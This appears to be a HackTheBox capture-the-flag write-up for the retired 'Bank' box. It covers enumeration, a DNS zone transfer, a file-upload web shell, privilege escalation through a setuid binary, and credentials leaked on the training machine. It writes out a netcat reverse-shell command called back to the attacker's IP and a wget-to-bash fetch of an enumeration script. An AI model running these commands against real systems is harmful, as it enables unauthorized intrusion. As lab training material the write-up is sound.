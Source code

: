 # Bank

This is the write-up for the box Bank that got retired at the 22nd September 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.29    bank.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/bank.nmap 10.10.10.29
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking DNS (Port 53)

Lets enumerate some DNS information with _nslookup_:
```markdown
nslookup

> SERVER 10.10.10.29

Default server: 10.10.10.29
Address: 10.10.10.29#53

> 127.0.0.1

1.0.0.127.in-addr.arpa  name = localhost.

> 10.10.10.29

** server can't find 29.10.10.10.in-addr.arpa: NXDOMAIN

> bank.htb

Server:         10.10.10.29
Address:        10.10.10.29#53

Name:   bank.htb
Address: 10.10.10.29
```

Reverse lookup is not active and the hostname _bank.htb_ responds to the IP.
Lets try a **DNS Zone Transfer** with _dig_:
```markdown
dig axfr bank.htb @10.10.10.29

# Output
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800
bank.htb.               604800  IN      NS      ns.bank.htb.
bank.htb.               604800  IN      A       10.10.10.29
ns.bank.htb.            604800  IN      A       10.10.10.29
www.bank.htb.           604800  IN      CNAME   bank.htb.
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800
```

There are some subdomains that we will put into our hosts file.

## Checking HTTP (Port 80)

On the web page it displays the default Apache2 Ubuntu installation page.
As we found out, there is a domain name, we can browse to the web page with the domain name _bank.htb_ and we get a login page.
This is called **Virtual Host Routing**.

![Bank login page](https://kyuu-ji.github.io/htb-write-up/bank/bank_login.png)

We use **Gobuster** to enumerate hidden paths on this page with the PHP extension:
```markdown
gobuster -u http://bank.htb/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

There are these directories that could be interesting:
- /uploads (Status: 301)
- /inc (Status: 301)
- /index.php (Status: 302)
- /support.php (Status: 302)
- /balance-transfer (Status: 200)

### Method 1 - Ignore redirects

With Burpsuite it is possible to see the web pages that redirect us by changing the HTTP response code from _302 Found_ to HTTP code _200 OK_.

This is the index.php page:

![Bank index page](https://kyuu-ji.github.io/htb-write-up/bank/bank_index.png)

This is the support.php page:

![Bank support page](https://kyuu-ji.github.io/htb-write-up/bank/bank_support-1.png)

We can upload code on the support.php to get command execution on the box.


### Method 2 - Intended way

The directory _balance-transfers_ has many of these files in it:

![Bank balance-transfers page](https://kyuu-ji.github.io/htb-write-up/bank/bank_balance-transfers.png)

There are around 1000 of these files. Looking at one of them they hold this content:
```markdown
++OK ENCRYPT SUCCESS
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: czeCv3jWYYljNI2mTedDWxNCF37ddRuqrJ2WNlTLje47X7tRlHvifiVUm27AUC0ll2i9ocUIqZPo6jfs0KLf3H9qJh0ET00f3josvjaWiZkpjARjkDyokIO3ZOITPI9T
Email: 1xlwRvs9vMzOmq8H3G5npUroI9iySrrTZNpQiS0OFzD20LK4rPsRJTfs3y1VZsPYffOy7PnMo0PoLzsdpU49OkCSSDOR6DPmSEUZtiMSiCg3bJgAElKsFmlxZ9p5MfrE
Password: TmEnErfX3w0fghQUCAniWIQWRf1DutioQWMvo2srytHOKxJn76G4Ow0GM2jgvCFmzrRXtkp2N6RyDAWLGCPv9PbVRvbn7RKGjBENW3PJaHiOhezYRpt0fEV797uhZfXi
CreditCards: 5
Transactions: 93
Balance: 905948 .
===UserAccount===
```

Lets download all of them, to examine them easier in the shell.
```markdown
wget -r http://bank.htb/balance-transfer/
```

By sorting them by file size it becomes clear that most of them have either 583, 584 or 585 bytes except for one that has 257 bytes.
```markdown
wc -c \*.acc | sort -n -r
```

The file with the name **68576f20e9732f1b2edc4df5b8533230.acc** has only 257 bytes and has this content:
```markdown
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

When trying this credentials on the login page we get logged in.

There is a _Support_ page where it is possible to upload files.

![Bank support page](https://kyuu-ji.github.io/htb-write-up/bank/bank_support-2.png)

The page allows images but doesn't allow PHP files to be uploaded. Looking at the source there is a comment that says:
> [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG]

So lets change the extension of our file to _.htb_ instead.

![File upload](https://kyuu-ji.github.io/htb-write-up/bank/bank_file-upload.png)

The uploaded files are in the center of the support page and clicking on the attachment to browse to that file. Now we can execute commands:
```markdown
http://bank.htb/uploads/logo.htb?cmd=whoami
```

This gives us the output that we are _www-data_. Lets start a reverse shell with this command execution.
```markdown
http://bank.htb/uploads/logo.htb?cmd=nc%20-e%20/bin/sh%2010.10.14.23%209001
```

After a short while the request gets sent to my listener that waits for connections on my IP and port 9001 and started a reverse shell as www-data!

## Privilege Escalation

When looking at the PHP files from the server, there are credentials for MySQL in the file **/var/www/bank/inc/user.php**:
```php
# (...)
function getUsername($email){
                $mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
                $email = $mysql->real_escape_string($email);
                $result = $mysql->query("SELECT * FROM users WHERE email = '$email'");
                $row = $result->fetch_assoc();
                return $row['username'];
# (...)
```

We can login into MySQL but don't find anything important and starting a shell from there won't start a root shell:
```markdown
mysql -u root -p


mysql> \! /bin/sh
```

The password won't work on the _chris_ nor the _root_ user, so we will execute any Linux enumeration script to get an attack surface.
```markdown
wget http://10.10.14.23/LinEnum.sh | bash
```

Looking at the results, there is a _setuid bit_ set on the **/var/htb/bin/emergency** binary that is not a default Linux binary.
When executing this, we drop into a shell with the effective user ID of root and finished the box!
